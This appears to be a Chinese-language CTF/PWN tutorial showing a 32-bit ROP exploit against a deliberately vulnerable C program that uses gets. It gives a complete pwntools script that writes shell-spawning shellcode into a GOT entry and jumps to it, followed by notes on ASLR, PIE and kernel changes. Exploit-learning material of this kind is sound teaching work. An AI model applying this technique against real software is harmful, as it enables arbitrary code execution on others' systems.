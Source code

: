 ```yaml
---
title: 'ROP 和 Shellcode'
date: '2023-08-29'
lastmod: '2023-08-29'
tags: ['PWN', 'Stack']
draft: false
summary: '通过控制 `gets` 的写入位置，把 shellcode 放在预设的地方。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确可靠。'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

<Download name="reliable_shellcode-32.zip" href="/static/assets/reliable_shellcode-32.zip" type="Binary" />

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  char buffer[20];

  puts("Give me the input");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 利用

老规矩。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

我们可以再次调用 `gets` 函数，不过这次要让 `gets` 函数把接收到的数据写入程序的某个区域，一个既可读又可写的地方，例如 GOT 表就是一个不错的选择。我们只要把 GOT 表里面一个条目的地址传给 `gets` 函数，`gets` 函数就会把我们传进去的 shellcode 写入这个 GOT 条目的位置，这样我们就知道 shellcode 被准确写入了什么位置。最后我们把 `gets` 函数的返回地址设为 shellcode 的地址，这样返回后就可以完美执行我们刚才输入的 shellcode 了。

通过控制 `gets` 的写入位置，我们就可以随心所欲地把 shellcode 放在任意位置，然后执行它。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确可靠。

```python showLineNumbers
rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## 0x03 64-bit

自行尝试 :D

<Download name="reliable_shellcode-64.zip" href="/static/assets/reliable_shellcode-64.zip" type="Binary" />

## 0x04 ASLR

这种方法不用担心 ASLR 的问题，因为我们既没有使用栈，也没有直接调用 libc 函数，只是使用了 ROP。

真正的问题是如果启用了 PIE，由于不知道 PLT 的位置，就无法调用 `gets`，也不知道 GOT 表的位置，无法写入。

## 0x05 潜在问题

由于没有 NX 保护，GOT 表默认的权限通常是可执行的。如果你使用较新版本的内核，例如 `5.9.0`，默认会移除可执行权限。

因此，如果你利用失败，可以使用 `uname -r` 查看内核版本，检查是否 `≥5.9.0`，如果是，那你就需要找到另一个 RWX 权限的区域放置 shellcode（如果这个区域存在）。

不同的内核和保护需要针对的调整利用技术。

